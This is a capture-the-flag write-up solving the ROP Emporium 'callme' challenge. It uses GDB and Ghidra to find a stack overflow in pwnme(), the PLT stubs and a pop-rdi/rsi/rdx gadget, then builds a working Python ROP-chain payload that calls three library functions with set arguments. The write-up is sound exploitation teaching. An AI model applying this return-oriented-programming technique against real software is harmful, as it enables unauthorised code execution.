


# callme
**Provided materials:** A `callme` binary, a `libcallme.so` shared object, and a `flag.txt` file

**Directions:** You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order, each with the arguments `0xdeadbeef`, `0xcafebabe`, `0xd00df00d` e.g. `callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)` to print the flag. **For the x86_64 binary** double up those values, e.g. `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`. The solution here is simple enough, use your knowledge about what resides in the PLT to call the `callme_` functions in the above order and with the correct arguments.

The included `callme` binary reminds us about the instructions before prompting us for input. After providing something, the program thanks us and exits.
```
$ ./callme
callme by ROP Emporium
x86_64

Hope you read the instructions...

> hey
Thank you!

Exiting
```

I started by debugging the binary with GDB. The `main` function calls `pwnme()`, which again uses `read()` to save user input somewhere on the stack.
```
gef➤  disas pwnme
Dump of assembler code for function pwnme:
   0x0000000000400898 <+0>:	push   rbp
   0x0000000000400899 <+1>:	mov    rbp,rsp
   0x000000000040089c <+4>:	sub    rsp,0x20
   0x00000000004008a0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004008a4 <+12>:	mov    edx,0x20
   0x00000000004008a9 <+17>:	mov    esi,0x0
   0x00000000004008ae <+22>:	mov    rdi,rax
   0x00000000004008b1 <+25>:	call   0x400700 <memset@plt>
   0x00000000004008b6 <+30>:	mov    edi,0x4009f0
   0x00000000004008bb <+35>:	call   0x4006d0 <puts@plt>
   0x00000000004008c0 <+40>:	mov    edi,0x400a13
   0x00000000004008c5 <+45>:	mov    eax,0x0
   0x00000000004008ca <+50>:	call   0x4006e0 <printf@plt>
   0x00000000004008cf <+55>:	lea    rax,[rbp-0x20]
   0x00000000004008d3 <+59>:	mov    edx,0x200
   0x00000000004008d8 <+64>:	mov    rsi,rax
   0x00000000004008db <+67>:	mov    edi,0x0
   0x00000000004008e0 <+72>:	call   0x400710 <read@plt>
   0x00000000004008e5 <+77>:	mov    edi,0x400a16
   0x00000000004008ea <+82>:	call   0x4006d0 <puts@plt>
   0x00000000004008ef <+87>:	nop
   0x00000000004008f0 <+88>:	leave
   0x00000000004008f1 <+89>:	ret
End of assembler dump.
```
In this case, up to `0x200` (512) bytes are read from the keyboard before the program exits. I already know that the payload needs 40 bytes of padding before the saved return address.

Viewing the available functions shows an unused `usefulFunction` starting at `0x4008f2`, an unused `usefulGadgets` at `0x40093c`, and `@plt` functions for each `callme_` function.
```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
```

The disassembly for `usefulFunction` shows calls for `callme_one()`, `callme_two()`, and `callme_three()`.
```
gef➤  disas usefulFunction 
Dump of assembler code for function usefulFunction:
   0x00000000004008f2 <+0>:	push   rbp
   0x00000000004008f3 <+1>:	mov    rbp,rsp
   0x00000000004008f6 <+4>:	mov    edx,0x6
   0x00000000004008fb <+9>:	mov    esi,0x5
   0x0000000000400900 <+14>:	mov    edi,0x4
   0x0000000000400905 <+19>:	call   0x4006f0 <callme_three@plt>
   0x000000000040090a <+24>:	mov    edx,0x6
   0x000000000040090f <+29>:	mov    esi,0x5
   0x0000000000400914 <+34>:	mov    edi,0x4
   0x0000000000400919 <+39>:	call   0x400740 <callme_two@plt>
   0x000000000040091e <+44>:	mov    edx,0x6
   0x0000000000400923 <+49>:	mov    esi,0x5
   0x0000000000400928 <+54>:	mov    edi,0x4
   0x000000000040092d <+59>:	call   0x400720 <callme_one@plt>
   0x0000000000400932 <+64>:	mov    edi,0x1
   0x0000000000400937 <+69>:	call   0x400750 <exit@plt>
End of assembler dump.
```

The functions are called in reverse order, and each takes the arguments 4, 5, and 6, which are not correct... With the lack of `ret` instructions after each `call`, `usefulFunction` cannot be used for gadgets.

You may have noticed that each `callme_` function name ends with `@plt`. The actual function definitions reside in the dynamically linked `libcallme.so`, so the `callme` binary uses a section called `.plt` (Procedure Linking Table) to resolve and run them.

Here I've used Ghidra to highlight the PLT entry for `callme_one()`. The underlying instructions form more of a code stub rather than a regular function.



If I overwrite the saved return address with the beginning of this `.plt` stub at `0x400720`, the program later jumps to a function which resolves the address of `callme_one()`. Recall that normally, `callme_one()` is never called in the program.
```
   0x7ffff7fda2e6 <_dl_runtime_resolve_xsave+00c6> add    rsp, 0x18
   0x7ffff7fda2ea <_dl_runtime_resolve_xsave+00ca> jmp    r11
   0x7ffff7fda2ed                  nop    DWORD PTR [rax]
 → 0x7ffff7fda2f0 <_dl_runtime_resolve_xsavec+0000> endbr64 
   0x7ffff7fda2f4 <_dl_runtime_resolve_xsavec+0004> push   rbx
   0x7ffff7fda2f5 <_dl_runtime_resolve_xsavec+0005> mov    rbx, rsp
   0x7ffff7fda2f8 <_dl_runtime_resolve_xsavec+0008> and    rsp, 0xffffffffffffffc0
   0x7ffff7fda2fc <_dl_runtime_resolve_xsavec+000c> sub    rsp, QWORD PTR [rip+0x2296d]        # 0x7ffff7ffcc70 <_rtld_global_ro+464>
   0x7ffff7fda303 <_dl_runtime_resolve_xsavec+0013> mov    QWORD PTR [rsp], rax
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "callme", stopped 0x7ffff7fda2f0 in _dl_runtime_resolve_xsavec (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7fda2f0 → _dl_runtime_resolve_xsavec()
[#1] 0x40093c → usefulFunction()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

Eventually, the actual function is reached.
```
   0x7ffff7c00811 <frame_dummy+0001> mov    rbp, rsp
   0x7ffff7c00814 <frame_dummy+0004> pop    rbp
   0x7ffff7c00815 <frame_dummy+0005> jmp    0x7ffff7c00780 <register_tm_clones>
 → 0x7ffff7c0081a <callme_one+0000> push   rbp
   0x7ffff7c0081b <callme_one+0001> mov    rbp, rsp
   0x7ffff7c0081e <callme_one+0004> sub    rsp, 0x30
   0x7ffff7c00822 <callme_one+0008> mov    QWORD PTR [rbp-0x18], rdi
   0x7ffff7c00826 <callme_one+000c> mov    QWORD PTR [rbp-0x20], rsi
   0x7ffff7c0082a <callme_one+0010> mov    QWORD PTR [rbp-0x28], rdx
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "callme", stopped 0x7ffff7c0081a in callme_one (), reason: SINGLE STEP
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ffff7c0081a → callme_one()
[#1] 0x40093c → usefulFunction()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

Therefore, I can use the starting address of every PLT stub for the `callme_` functions as gadgets for isolated calls.

With the function calls out of the way, I now need a method to pass the correct arguments. The directions require the three to equal `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, and `0xd00df00dd00df00d`. Earlier, I brought up another unused function `usefulGadgets`. Well, it's actually a gadget that pops three values from the stack into the registers for the first three arguments of any function (`rdi`, `rsi`, and `rdx`).

I initially discovered the `usefulGadgets` symbol in Ghidra while solving the challenge, but you can also view it from GDB.



```
gef➤  disas usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:	pop    rdi
   0x000000000040093d <+1>:	pop    rsi
   0x000000000040093e <+2>:	pop    rdx
   0x000000000040093f <+3>:	ret
End of assembler dump.
```

Putting everything together, I devised the below payload.
```python
arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d
load_args_gadget = 0x40093c
load_args = p64(load_args_gadget) + p64(arg1) + p64(arg2) + p64(arg3)
callme_one_plt = 0x400720
callme_two_plt = 0x400740
callme_three_plt = 0x4006f0

payload = b"A"*40
payload += load_args + p64(callme_one_plt)
payload += load_args + p64(callme_two_plt)
payload += load_args + p64(callme_three_plt)
```

When `callme` reads the payload via `read()`, the return address for `pwnme()` is redirected to the pops gadget at the symbol `usefulGadgets`. The three required function arguments are popped off the stack into the `rdi`, `rsi`, and `rdx` registers just before the `.plt` stub for each `callme_` runs. Everything is called in the correct order with the proper arguments, giving us the flag!
```
$ python3 solution.py 
[+] Starting local process './callme': pid 15782
[*] Switching to interactive mode
[*] Process './callme' stopped with exit code 0 (pid 15782)
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```